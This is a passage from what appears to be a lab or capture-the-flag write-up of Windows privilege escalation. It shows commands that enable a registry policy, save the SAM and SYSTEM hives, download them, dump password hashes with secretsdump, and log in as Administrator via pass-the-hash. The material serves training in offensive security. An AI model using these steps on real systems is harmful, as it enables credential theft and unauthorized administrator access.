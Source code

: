 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395177901/17625741-ef8b-4e5d-b6c8-53b295da8694.png align="center")

For the next part, we will use `Evil-WinRM`. Upon logging in, we notice that we cannot access all the files. This is because the Backup Operators Group is disabled.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395216446/7af6ccdb-ca59-443e-8edc-421e4e2b84f0.png align="center")

Don't worry, we can enable it through the registry.

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395249613/a6630e89-84b2-4673-9c2a-2595b194fd35.png align="center")

Great, the `Backup Operators` group is now enabled.

```powershell
whoami /groups
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395279652/42ce9271-e312-408a-a1dc-16e705ba0c98.png align="center")

Now, let's create copies of the `SAM` and `SYSTEM` files and transfer them to our attack box.

```powershell
reg save HKLM\SYSTEM system.bak
```

```powershell
reg save HKLM\SAM sam.bak
```

```powershell
download system.bak
```

```powershell
download sam.bak
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692395343882/a923600c-1a45-463b-ba4d-b2689a930840.png align="center")

From here, we can extract the password hashes using `Impacket's` `secretsdump.py`.

```bash
/opt/impacket-0.9.19/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692398057558/186b3c71-a5cf-4df5-869d-546e80a0fd00.jpeg align="center")

Now, we can log in to the Administrator account using a `pass-the-hash` attack.

```bash
evil-winrm -i 10.10.55.203 -u Administrator -H [REDACTED]
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692398102091/fca88949-eb5a-4942-b09f-b79561f08bd6.jpeg align="center")
